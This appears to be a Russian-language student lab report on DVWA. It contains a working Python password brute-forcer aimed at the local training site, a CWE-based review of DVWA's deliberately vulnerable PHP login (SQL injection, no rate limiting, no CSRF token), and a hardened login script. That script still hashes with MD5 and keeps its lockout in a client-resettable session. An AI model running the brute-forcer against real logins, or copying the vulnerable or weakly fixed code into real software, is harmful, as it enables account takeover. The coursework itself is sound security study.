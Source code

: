 # pr3
## Установка
Архив DVWA был скачан с официального ресурса github, затем установлен с использованием дистрибутива OSPanel.
![image](https://github.com/user-attachments/assets/ba34beeb-ad1e-4daf-986c-7c5c8635b7bf)
Адрес: http://dvwa.local/login.php
![image](https://github.com/user-attachments/assets/4e7ff5dd-26b2-4344-8767-ff9e571b4cad)
## Задания
1.Необходимо разработать переборщик паролей для формы в задании Bruteforce на сайте dvwa.local.
Было решено помочь программе установкой префикса "passwo" для того, чтобы уменьшить время подбоа пароля.
```python
import itertools
import requests
import time

# Настройки
URL = "http://dvwa.local/vulnerabilities/brute/"
USERNAME = "admin"
CHARSET = 'abcdefghijklmnopqrstuvwxyz'
PASSWORD_LENGTH = 8
PREFIX = "passwo"
SESSION = requests.Session()

# Устанавливаем cookie для авторизации
SESSION.cookies.set("PHPSESSID", "mgg4vgt0fcdtg672ead6ujaa02a5eu1h")
SESSION.cookies.set("security", "low")


def generate_passwords(prefix, length, charset):
    remaining_length = length - len(prefix)
    return (
        prefix + ''.join(comb)
        for comb in itertools.product(charset, repeat=remaining_length)
    )


def is_password_correct(url, username, password):
    params = {'username': username, 'password': password, 'Login': 'Login'}
    try:
        response = SESSION.get(url, params=params)
        return "Welcome to the password protected area" in response.text
    except requests.exceptions.RequestException as e:
        print(f"[-] Ошибка при запросе: {e}")
        return False


def main():
    start_time = time.time()
    print("[*] Начинаем подбор пароля...")

    for password in generate_passwords(PREFIX, PASSWORD_LENGTH, CHARSET):
        print(f"[*] Пробуем пароль: {password}")
        if is_password_correct(URL, USERNAME, password):
            print(f"[+] Пароль найден: {password}")
            break
    else:
        print("[-] Пароль не найден.")

    end_time = time.time()
    print(f"[+] Время выполнения: {end_time - start_time:.2f} секунд")


if __name__ == "__main__":
    main()
```
Результат работы программы:
![Uploading image.png…]()
2. Проанализировать код и сделать кодревью, указав слабые места. Слабость уязвимого кода необходимо указать с использованием метрики CWE (база данных [cwe.mitre.org](http://cwe.mitre.org))

``` PHP
<?php

if( isset( $_GET[ 'Login' ] ) ) {
	// Get username
	$user = $_GET[ 'username' ];
	// Get password
	$pass = $_GET[ 'password' ];
	$pass = md5( $pass );
	// Check the database
	$query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
	$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
	if( $result && mysqli_num_rows( $result ) == 1 ) {
		// Get users details
		$row    = mysqli_fetch_assoc( $result );
		$avatar = $row["avatar"];
		// Login successful
		$html .= "<p>Welcome to the password protected area {$user}</p>";
		$html .= "<img src=\"{$avatar}\" />";
	}
	else {
		// Login failed
		$html .= "<pre><br />Username and/or password incorrect.</pre>";
	}
	((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}
?>
```
1)SQL Injection (CWE-89): В коде выполняется прямое использование переменных из входных данных ($_GET['username'] и $_GET['password']) в SQL-запросе без какой-либо защиты. Это означает, что злоумышленник может вставить вредоносный SQL-код через параметры запроса и изменить запрос так, чтобы он всегда возвращал истинный результат (например, взломав пароли или получив доступ к базе данных).

2)Код не имеет защиты от атак перебора паролей, таких как блокировка аккаунта или использование капчи после нескольких неудачных попыток входа. Это позволяет злоумышленнику бесконечно пытаться угадать пароль, например, с использованием перебора.

3)Отсутствие защиты от CSRF атак (CWE-352):Код не включает защиту от атак подделки межсайтовых запросов (CSRF). Это значит, что злоумышленник может создать фальшивую форму на другом сайте, которая будет отправлять запросы на авторизацию от имени жертвы, если она уже авторизована на данном сайте.

3.Разработать свою систему авторизации на любом языке, исключающий взможность подбора паролей разработнным переборщиком паролей в задании 1. Возможно исправление авторизации из dvwa.local *Требования к системе авторизации*

- Система авторизации должна использовать запросы GET с параметрами, аналогичными из задания bruteforce dvwa


vhod.php
  ``` PHP
  <?php

session_start();

if (!isset($_SESSION['failed_attempts'])) {
    $_SESSION['failed_attempts'] = 0;
}

if (!isset($_SESSION['last_attempt_time'])) {
    $_SESSION['last_attempt_time'] = 0;
}

// Ограничение на количество попыток
$max_attempts = 5;
$block_duration = 300; // 5 минут

if ($_SESSION['failed_attempts'] >= $max_attempts && (time() - $_SESSION['last_attempt_time']) < $block_duration) {
    $remaining_time = $block_duration - (time() - $_SESSION['last_attempt_time']);
    die("Too many failed login attempts. Please try again after " . ceil($remaining_time / 60) . " minutes.");
}

// Проверка наличия необходимых параметров
$message = "";
if (isset($_GET['Login'])) {
    if (isset($_GET['username']) && isset($_GET['password']) && isset($_GET['user_token'])) {
        // Генерация токена для предотвращения CSRF-атак
        if (!isset($_SESSION['user_token']) || empty($_SESSION['user_token'])) {
            $_SESSION['user_token'] = bin2hex(random_bytes(32));
        }

        $user = filter_input(INPUT_GET, 'username', FILTER_SANITIZE_STRING);
        $pass = filter_input(INPUT_GET, 'password', FILTER_SANITIZE_STRING);
        $user_token = filter_input(INPUT_GET, 'user_token', FILTER_SANITIZE_STRING);

        if ($user_token !== $_SESSION['user_token']) {
            $message = "Неверный токен. Перезапустите страницу и попробуйте снова";
        } else {

            $mysqli = new mysqli("localhost", "root", "", "dvwa");

            if ($mysqli->connect_error) {
                die("Database connection failed: " . $mysqli->connect_error);
            }

            // Использование подготовленных выражений для защиты от SQL-инъекций
            $stmt = $mysqli->prepare("SELECT * FROM `users` WHERE user = ? AND password = ?");
            $hashed_password = md5($pass);
            $stmt->bind_param("ss", $user, $hashed_password);
            $stmt->execute();
            $result = $stmt->get_result();

            if ($result && $result->num_rows === 1) {
                $row = $result->fetch_assoc();
                $avatar = htmlspecialchars($row["avatar"], ENT_QUOTES, 'UTF-8');
                echo "<p>Welcome to the password protected area " . htmlspecialchars($user, ENT_QUOTES, 'UTF-8') . "</p>";
                echo "<img src=\"" . $avatar . "\" />";

                $_SESSION['failed_attempts'] = 0;
                exit;
            } else {
                $_SESSION['failed_attempts']++;
                $_SESSION['last_attempt_time'] = time();
                $message = "Пользователь или пароль не верен.";
            }

            $stmt->close();
            $mysqli->close();
        }
    } else {
        $message = "Заполните все поля.";
    }
}

// Генерация нового токена при каждом обновлении страницы
if (!isset($_SESSION['user_token']) || empty($_SESSION['user_token'])) {
    $_SESSION['user_token'] = bin2hex(random_bytes(32));
}
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Login</title>
</head>
<body>
    <form method="get">
        <input type="hidden" name="user_token" value="<?php echo $_SESSION['user_token']; ?>">
        <label for="username">Username:</label>
        <input type="text" id="username" name="username" required>
        <br>
        <label for="password">Password:</label>
        <input type="password" id="password" name="password" required>
        <br>
        <button type="submit" name="Login">Login</button>
    </form>

    <?php if (!empty($message)): ?>
        <p style="color: red;"><?php echo htmlspecialchars($message, ENT_QUOTES, 'UTF-8'); ?></p>
    <?php endif; ?>
</body>
</html>
```

